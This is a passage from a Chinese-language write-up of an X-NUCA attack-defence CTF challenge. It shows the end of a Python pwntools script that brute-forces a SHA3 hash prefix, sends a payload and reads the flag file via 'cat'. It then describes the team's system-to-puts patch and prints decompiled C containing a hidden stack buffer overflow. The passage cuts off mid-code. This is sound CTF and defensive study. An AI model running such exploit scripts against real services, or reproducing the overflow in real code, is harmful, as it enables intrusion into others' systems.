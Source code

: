 ```python
      for k in range(256):
        s=hashlib.sha3_256()
        s.update(chr(i)+chr(j)+chr(z)+chr(k))
        if s.hexdigest()[:6]==binascii.hexlify(txt)[:6]:
          print "OK"
          p.sendline(p32(4)+chr(i)+chr(j)+chr(z)+chr(k))
          p.sendline("cat /opt/xnuca/flag.txt")
          for i in range(0,20):
            print p.recvline(timeout=0.1)
```
虽然我们实现了爆破的脚本，但是因为网络配置和队员间沟通的问题，这个脚本直到20号下午4点多才发挥出功效，那时所有能被打的队伍这道题的分都已经丢光了QAQ

我们采用的patch方案是将system替换成puts，不能修改"/bin/sh"，会被checker检测出服务异常，也不能修改像"opmode"这样的字符串使得这个功能失效，同样会被checker检测出服务异常。


最后分析一下这个程序一个有点隐蔽的栈溢出漏洞，我在比赛期间没有发现这个漏洞，这道题也因为这个漏洞被打穿了。在被打穿的过程中，我们曾对这个程序进行过一顿胡乱的patch，但是都没有patch到点上，来看看这个漏洞代码是怎样的：
```c
signed __int64 __fastcall sub_401BED(__int64 a1)
{
  signed __int64 result; // rax@2
  char v2[1032]; // [sp+10h] [bp-410h]@7
  unsigned int v3; // [sp+418h] [bp-8h]@1
  int v4; // [sp+41Ch] [bp-4h]@1

  v4 = 1024;
  v3 = 0;
  if ( dword_607610 )
    result = 0LL;
  else
  {
    if ( *(_DWORD *)(a1 + 44) != 0x1337FACE && *(_DWORD *)(a1 + 44) )
      puts("We only provide open-box service to legit white hatter :(");
    else
    {
      dword_607610 = 1;
      ptr = malloc(0x800uLL);
      puts("your lucky string>");
      read(0, ptr, 0x800uLL);
LABEL_6:
      while ( v4 )
      {
        v2[v3] = *((_BYTE *)ptr + v3);
        ++v3;
        --v4;
        switch ( *((_BYTE *)ptr + v3 - 1) + 2 )
        {
          case 99:
            ++*(_DWORD *)(a1 + 44);
            goto LABEL_6;
          case 100:
            *(_DWORD *)(a1 + 44) += 2;
            goto LABEL_6;
          case 101:
            *(_DWORD *)(a1 + 44) += 3;
            goto LABEL_6;
          case 102:
            *(_DWORD *)(a1 + 44) += 4;
            goto LABEL_6;
          case 103:
            *(_DWORD *)(a1 + 44) += 5;
            goto LABEL_6;
          case 104:
```